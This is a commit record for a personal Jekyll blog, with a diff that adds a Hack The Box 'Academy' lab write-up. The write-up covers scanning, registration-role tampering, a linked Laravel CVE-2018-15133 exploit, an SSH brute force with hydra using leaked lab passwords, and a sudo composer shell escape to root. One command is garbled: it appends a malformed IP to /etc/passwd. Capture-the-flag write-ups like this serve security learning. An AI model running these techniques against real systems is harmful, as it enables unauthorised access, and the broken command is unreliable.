

Before and after one commit to arslanblcn/arslanblcn.github.io, a Jekyll site: the page built from _posts/2021-02-15-Tryhackme-Anonymous.md, in a window 1280 px wide and 1400 px high, scrolled down 5510 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; part of the change alters nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
Hackthebox Academy

````diff
--- a/_posts/2021-02-15-Tryhackme-Anonymous.md
+++ b/_posts/2021-02-15-Tryhackme-Anonymous.md
@@ -4,7 +4,7 @@ date: 2021-02-15 16.40
 categories: [Tryhackme, Linux]
 tags: [ftp, suid, privesc]
 author: CEngover
-image: /assets/img/posts/anonymous.png
+image: /assets/img/posts/anonymous/anonymous.png
 ---
 
 Hello, in this article we're going to solve `Anonymous` which is linux based machine from [Tryhackme](https://tryhackme.com/). Let's describe solution steps first and then get into the solution.
--- /dev/null
+++ b/_posts/2021-02-26-Hackthebox-Academy-Write-up.md
@@ -0,0 +1,175 @@
+---
+title: "Hackthebox Academy Write-up"
+date: 2021-02-26 12.40
+categories: [Hackthebox, Linux]
+tags: [CVE-2018–15133, suid, privesc]
+author: CEngover
+image: /assets/img/posts/academy/academy.png
+---
+
+Hello, in this article I'll try to explain the solution of academy machine. The machine released in [Hackthebox](https://www.hackthebox.eu/) which is also one of the most populer penetration testing labs.
+
+### Reconnaissance
+
+- Nmap Scanning
+- Finding Vhost
+
+### Exploitation
+
+- Exploiting CVE-2018–15133
+
+### Privilege Escalation Part 1
+
+- Local reconnaissance
+- Becoming cry0l1t3 user
+
+### Privilege Escalation Part 2
+
+- Finding useful audit logs
+- Becoming mrb3n user
+
+### Privilege Escalation Part 3
+
+- Abuse of composer SUID bit
+
+
+## Reconnaissance
+
+### Nmap Scanning
+
+First of all, let's do nmap scanning as always.
+
+> sudo nmap -sC -sV -oA nmap/academy-open-ports -v 10.10.10.215
+
+```bash
+# Nmap 7.91 scan initiated Thu Feb 25 05:27:13 2021 as: nmap -sC -sV -oA nmap/academy-open-ports -v 10.10.10.215
+Nmap scan report for 10.10.10.215
+Host is up (0.075s latency).
+Not shown: 998 closed ports
+PORT   STATE SERVICE VERSION
+22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
+| ssh-hostkey:
+|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
+|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
+|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
+80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
+| http-methods:
+|_  Supported Methods: GET HEAD POST OPTIONS
+|_http-server-header: Apache/2.4.41 (Ubuntu)
+|_http-title: Did not follow redirect to http://academy.htb/
+Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
+
+Read data files from: /usr/bin/../share/nmap
+Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+```
+
+As seen in the result of nmap, we have 2 ports open. SSH is running on port 22 and it has OpenSSH 8.2p1 version. Also nmap says it's an ubuntu server. The other one is HTTP which is running on port 80 and  has Apache 2.4.41 version. Moreover, we have a domain name which is `academy.htb`, can be seen in the result. Let's add it to our hosts file.
+
+> sudo echo "10.10.10.215    academy.htb" >> /etc/hosts
+
+In main page we can see that there are some pages where we can do user registration and log in. Let's try to find hidden directories and files.
+
+> gobuster dir -u http://academy.htb -w /usr/share/wordlists/dirb/big.txt -x php,html,txt -t 100 -o academy-root-dir
+
+```bash
+/.htpasswd (Status: 403)
+/.htpasswd.txt (Status: 403)
+/.htpasswd.html (Status: 403)
+/.htpasswd.php (Status: 403)
+/.htaccess (Status: 403)
+/.htaccess.php (Status: 403)
+/.htaccess.txt (Status: 403)
+/.htaccess.html (Status: 403)
+/admin.php (Status: 200)
+/config.php (Status: 200)
+/home.php (Status: 302)
+/images (Status: 301)
+/index.php (Status: 200)
+/login.php (Status: 200)
+/register.php (Status: 200)
+/server-status (Status: 403)
+```
+
+After finding hidden directories and files, we notice that there is also one more page which is `admin.php`. Let's jump into `register.php` page and create a user. Once we capture the request with burpsuit, we see that there is a `roleid` parameter and Its value is 0.
+
+![Registration Request](/assets/img/posts/academy/registration.png)
+
+If we change the value of roleid 0 to 1 we can access to some secret places. Now, we have user credentials and login pages. We can access the admin portal with the user we created on the registration page.
+
+### Finding VirtualHost
+
+![Admin Page](/assets/img/posts/academy/adminpage.png)
+
+Once we log in we see that there is a virtualhost called `dev-staging-01.academy.htb`. Let's add it to hosts file, as well.
+
+> sudo echo "10.10.10.2.15   dev-staging-01.academy.htb" >> /etc/passwd
+
+Visit the virtualhost and look around. We see there are some useful information about the page such as APP_NAME = Laravel, APP_KEY = something.
+
+![Laravel Config](/assets/img/posts/academy/laravel.png)
+
+After a quick search I found a vulnerability for Laravel which is `Remote Code Execution`. Searching on the internet and I found this [laravel Exploit](https://github.com/aljavier/exploit_laravel_cve-2018-15133).
+
+## Exploitation
+
+Once we run the exploit that we found, we can run any command on the target.
+
+![Access](/assets/img/posts/academy/access.png)
+
+We gain reverse shell on the system if we replace the exploit arguments like given in the picture.
+
+## Privilege Escalation Part 1
+
+In this part we can use `linpeas.sh` for information gathering. I came cross with `.env` which is like config file for laravel and saw that there is a db password. Also I found one more password in `config.php` file. Let's try ssh with these passwords.
+
+```bash
+mySup3rP4s5w0rd!!
+GkEWXn4h34g8qx9fZ1
+
+### passwords
+```
+
+```bash
+
+g0blin
+ch4p
+cry0l1t3
+mrb3n
+egre55
+21y4d
+
+###users
+```
+> hydra -L users -P password 10.10.10.215 ssh
+
+![SSH Brute Force](/assets/img/posts/academy/ssh.png)
+
+We escalate our privileges to `cry0l1t3` user by using the same database password. Now, we can read user flag.
+
+![User Flag](/assets/img/posts/academy/userflag.png)
+
+## Privilege Escalation Part 2
+
+When we list the groups that we're in, we can see that we're member of `adm` group. This group's members can read `/var/logs`. Let's run linpeas agains the system and chech what we have.
+
+![Audit log](/assets/img/posts/academy/audit.png)
+
+Linpeas tells us that there is a login activity with the `su` command. The text that seen next to `data` parameter will be what we need. When we convert that data with hexadecimal to text, we've `mrb3n_Ac@d3my!` password. We can use this password to login as `mrb3n` user.
+
+## Privilege Escalation Part 3
+
+Now, we have more privilege on the system and we have to be root.
+
+![Sudo Privileges](/assets/img/posts/academy/sudo.png)
+
+If we check commands that we can run with sudo rights, we can see that we can use `composer` with sudo. [GTFOBins](https://gtfobins.github.io/gtfobins/composer/) can help us about how can we abuse this binary.
+
+![Getting Root](/assets/img/posts/academy/root.png)
+
+```bash
+TF=$(mktemp -d)
+echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
+sudo composer --working-dir=$TF run-script x
+```
+
+We gain root access by following the given commands and see root flag.
````
Also changed, not shown: assets/img/posts/academy/academy.png (added), assets/img/posts/academy/access.png (added), assets/img/posts/academy/adminpage.png (added), assets/img/posts/academy/audit.png (added), assets/img/posts/academy/laravel.png (added), assets/img/posts/academy/registration.png (added), assets/img/posts/academy/root.png (added), assets/img/posts/academy/ssh.png (added), assets/img/posts/academy/sudo.png (added), assets/img/posts/academy/userflag.png (added).
